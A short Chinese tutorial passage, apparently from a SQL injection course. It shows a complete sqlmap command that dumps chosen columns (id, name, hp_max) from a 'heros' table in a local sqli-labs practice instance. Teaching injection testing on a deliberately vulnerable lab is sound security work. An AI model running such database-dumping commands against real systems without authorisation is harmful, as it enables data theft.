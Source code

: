 ### 查询heros数据表中的英雄信息

当我们了解了数据表中的字段之后，就可以对指定字段进行查询，使用`-C`参数进行指定。比如我们想要查询heros数据表中的`id`、`name`和`hp_max`字段的取值，这里我们不采用多线程的方式，具体命令如下：

```
    python sqlmap.py -u "http://localhost/sqli-labs-master/Less-1/?id=1" -D wucai -T heros -C id,name,hp_max --dump
    

```

![](./httpsstatic001geekbangorgresourceimagece33ced56f2e12f6c1afccadac6be231a533.png)  